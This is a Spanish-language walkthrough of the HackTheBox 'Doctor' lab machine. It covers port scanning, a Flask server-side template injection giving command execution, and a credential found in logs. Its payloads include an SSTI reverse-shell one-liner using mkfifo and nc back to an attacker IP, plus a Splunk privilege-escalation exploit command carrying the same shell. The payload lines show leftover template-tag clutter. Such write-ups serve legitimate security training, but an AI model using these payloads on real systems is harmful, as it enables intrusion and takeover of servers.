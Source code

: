 # Máquina "Doctor" de HackTheBox

## Características

- Linux
- Easy
- External
- Splunk
- Penetration Tester Level 1
- SSTI Exploitation
- A03:2021-Injection
- Enumeration
- Remote Code Execution
- Defense Mechanisms
- Clear Text Credentials
- SIEM
- Log Analysis
- Misconfiguration
- SSTI
- SSTI popen (RCE)
- Bypassing de command injection (RCE)
- Abusing ADM group finding credentials in request logs
- Splunk exploitation en la escalada

## Útil en

- eWPT
- eWPTX v2
- OSWE

**IP:** 10.10.10.209

## Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts
```

```bash
sudo nmap -sCV -p22,80,8089 10.10.10.209 -oN targeted
```

### Resultado del escaneo

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento web

Vemos el puerto 80 y 8089, así que les lanzamos un whatweb:

```bash
whatweb http://10.10.10.209
```

**Resultado:**
```
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
```

```bash
whatweb http://10.10.10.209:8089
```

**Resultado:**
```
ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer
```

Como vemos en la descripción de nmap del puerto 8089, nos muestra SSL y no HTTP, así que enviaremos HTTPS:

```bash
whatweb https://10.10.10.209:8089
```

**Resultado:**
```
https://10.10.10.209:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```

## Configuración del archivo hosts

Agregamos al archivo `/etc/hosts`. Así que podemos tener un dominio en el puerto 80, podemos hacer virtual hosting. Ingresamos los datos de 3 formas: una con la IP, otra con el dominio y la otra con la IP al puerto 8089:

```bash
echo "10.10.10.209 doctors.htb doctor.htb" >> /etc/hosts
```

![Página web principal](/secciones/posts/imagenes/doctor/web1.png)

## Investigación de Splunk

Vemos los 4 links y nada. Continuamos lanzando `searchsploit splunk`. Luego buscamos en Google y podemos ver un local privilege escalation en:

https://github.com/cnotin/SplunkWhisperer2

Nos pide usuario y clave, así que lo dejaremos guardado.

## Análisis de la aplicación web

Volvemos a la página principal, nos registramos y vemos un panel con un número:

```
http://doctors.htb/home?page=1
```

Que podemos modificarlo para testear:

```
http://doctors.htb/home?page=../../../../.././../etc/passwd
```

Veremos el código fuente y podemos ver que hay una referencia a un directorio `<a class="nav-item nav-link" href="/home">Home</a>` y no se ve nada, así que agregamos al `/etc/hosts`.

```bash
whatweb http://doctors.htb
```

**Resultado:**
```
http://doctors.htb [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], HttpOnly[session], IP[10.10.10.209], Python[3.8.2], RedirectLocation[http://doctors.htb/login?next=%2F], Title[Redirecting...], Werkzeug[1.0.1]
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

## Explotación SSTI

Ahora sí podemos ver, y al ver con Wappalyzer nos muestra que corre Flask. Lanzamos esta payload:

```python
{request.application.__globals__.__builtins__.__import__('os').popen('id').read()} {% endraw %}
```

![SSTI Payload](/secciones/posts/imagenes/doctor/payload.webp)

¡Tenemos RCE! Ahora, probé una línea de shell reverso de la hoja de trucos de shell reverso de PentestMonkey. Esta fue mi carga útil final:

```python
{% raw %}{% raw %}{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f').read()}}{% endraw %}{% endraw %}{% endraw %}
```

## Acceso inicial

Configuramos netcat y lanzamos:

```bash
nc -lvnp 1234
```

Tenemos shell, la configuramos y seguimos.

A continuación, utilicé `ssh-keygen` para crear un `id_rsa` para la web y luego inicié sesión a través de SSH.

## Escalada horizontal

Una vez dentro, lanzamos `id` y podemos ver que tenemos el grupo `adm`. Una búsqueda rápida me dijo que los usuarios del grupo `adm` pueden leer los archivos `/var/log`.

Así que vamos y ejecutamos:

```bash
grep -ir password * 2>/dev/null
```

Es posible que hayamos encontrado una posible contraseña: `Guitar123`. Intentamos ingresar con el usuario `shaun` y entramos con éxito.

Sacamos la flag de user.

## Escalamiento de privilegios

Ejecuté `ps aux` y vi que root está ejecutando el servidor splunkd:

```bash
ps aux | grep splunk
```

Usaremos el exploit nuevamente, pero esta vez desde shaun:

```bash
python3 PySplunkWhisperer2_remote.py --host doctor.htb --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f" --lhost 10.10.14.4
```

¡Y somos root!

## Nota  

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.

